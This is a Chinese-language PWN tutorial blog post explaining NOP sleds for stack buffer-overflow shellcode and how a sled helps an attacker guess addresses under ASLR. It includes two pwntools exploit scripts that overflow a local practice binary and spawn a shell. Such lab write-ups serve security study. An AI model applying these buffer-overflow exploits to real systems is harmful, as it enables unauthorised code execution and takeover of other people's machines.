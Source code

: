 ```yaml
---
title: NOPs
subtitle: 更可靠的 shellcode
date: 2023-08-08T14:29:14+08:00
draft: false
author:
  name: CuB3y0nd
  link:
  email:
  avatar:
description:
keywords:
license:
comment: true
weight: 0
tags:
  - PWN
  - Stack
categories:
  - PWN
hiddenFromHomePage: false
hiddenFromSearch: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: true
lightgallery: false
password:
message:
repost:
  enable: false
  url:
---
```


由于在调试工具里得到的返回地址和正常运行时并不一致（这是运行时环境变量等因素有所不同造成的），
所以这种情况下我们只能得到大致但不确切的 shellcode 起始地址，解决办法是在溢出 Padding 前面填充
若干长度的 NOP 。

NOP，无操作（**N**o **OP**eration）指令的作用正如其名：什么也不做。所以在运行到 NOP 指令的时候
只会使程序计数器加一，而不会发生其它的事情。这是一种可以破解栈随机化的缓冲区溢出攻击方式。
攻击者通过填充字符串注入攻击代码，在实际的攻击代码前注入很长的 NOP 指令序列，只要程序的
控制流指向该序列任意一处，都可以无副作用地跳转到 shellcode 的起始处，这允许我们有更大的
误差范围，因为向前或向后移动几个字节不会影响程序的正常运行。这与直接运行 shellcode 具有
相同的效果。这种 NOP Padding 通常被称为 NOP Slide 或 NOP Sled（俗称「滑雪橇」），因为 EIP
本质上是沿着它们 Slide 的。这样我们就可以通过增加 NOP 填充来试验 shellcode 的起始地址。NOP Sled
可以帮助攻击者提高访问到自己的攻击代码的概率。

[地址空间配置随机化（ASLR）](https://zh.wikipedia.org/wiki/%E4%BD%8D%E5%9D%80%E7%A9%BA%E9%96%93%E9%85%8D%E7%BD%AE%E9%9A%A8%E6%A9%9F%E8%BC%89%E5%85%A5) 指程序运行时栈的起始地址是随机的，所以程序中存放各函数返回地址
的地址也会发生对应的改变。可防止运行相同程序的相同系统因易预测栈地址而被攻击。

由于栈地址在一定范围的随机性，攻击者不能够知道攻击代码注入的地址，而要执行攻击代码需要将函数
的返回地址更改为攻击代码的地址（可以通过缓冲区溢出的方式篡改函数的返回地址）。所以，只能在一
定范围内（栈随机导致攻击代码地址一定范围内随机）枚举攻击代码的地址（有依据的猜）。

{{<admonition type="info" title="例子">}}

为了尝试破解 $2^{23}$ 的随机化，则需要枚举 $2^{23}$ 个返回地址。而使用 NOP Sled 的方式，
若枚举一个 $2^{8}$ Bytes 的 NOP sled，则只需要枚举 $2^{23} / (2^{8} + 1)$ 个返回地址
即可，因为每次枚举出的地址只要是 $2^{8}$ 中的之一就可以。（攻击代码本身有一个起始地址，
所以为 $255 + 1$）

{{</admonition>}}

不用 NOP Sled，函数返回地址 ---> 攻击代码</br>
使用 NOP Sled，函数返回地址 ---> NOP 序列（顺序执行）直到攻击代码地址

在 intel x86 汇编中，NOP 指令是 `\x90` 。

<!--more-->

NOP 指令是 `XCHG EAX, EAX` 的别名（32 bit 系统中），它实际上什么也不做。你可以在这个
[问题](https://stackoverflow.com/questions/25008772/whats-the-difference-between-the-x86-nop-and-fnop-instructions) 上阅读更多相关信息。

## 0x01 更新 EXP

现在可以对我们的 EXP 进行一些细微的更改，以完成两件事：

- 添加大量 NOP Padding
- 调整我们的返回地址以指向 NOP 的中间而不是缓冲区的开头

{{<admonition type="warning">}}

确保 ASLR 仍处于禁用状态。你可能需要重新调整之前的 EXP，因为缓冲区位置可能会有所不同。

{{</admonition>}}

```python {title="exp.py"}
from pwn import *

context.binary = ELF('./vuln')

p = process()

# 使用 NOP
payload = b'\x90' * 240
# 构建 shellcode
payload += asm(shellcraft.sh())
# 溢出 Padding
payload = payload.ljust(312, b'A')
# 缓冲区地址 + 一半 NOP 长度
payload += p32(0xffffd6b4 + 120)

log.info(p.clean())

p.sendline(payload)

p.interactive()
```

{{<admonition type="warning">}}

值得一提的是：带有 NOP 的 shellcode 并不是万无一失的。如果出现用 NOP Sled 造成的
意外错误，但 shellcode 在使用 NOP Sled 之前可以正常工作，请尝试减少 NOP Sled 的
长度，因为它可能会篡改栈上的其它内容。

{{</admonition>}}

注意：NOP 在某些架构中不是 `\x90` 。如果你需要其他架构的 NOP，可以使用 pwntools：

```python
nop = asm(shellcraft.nop())
```

## 0x02 最终 EXP

```python {title="exp.py"}
from pwn import *

context.binary = ELF('./vuln')

p = process()

# 使用 NOP
payload = asm(shellcraft.nop()) * 240
# 构建 shellcode
payload += asm(shellcraft.sh())
# 溢出 Padding
payload = payload.ljust(312, b'A')
# 缓冲区地址 + 一半 NOP 长度
payload += p32(0xffffd6b4 + 120)

log.info(p.clean())

p.sendline(payload)

p.interactive()
```
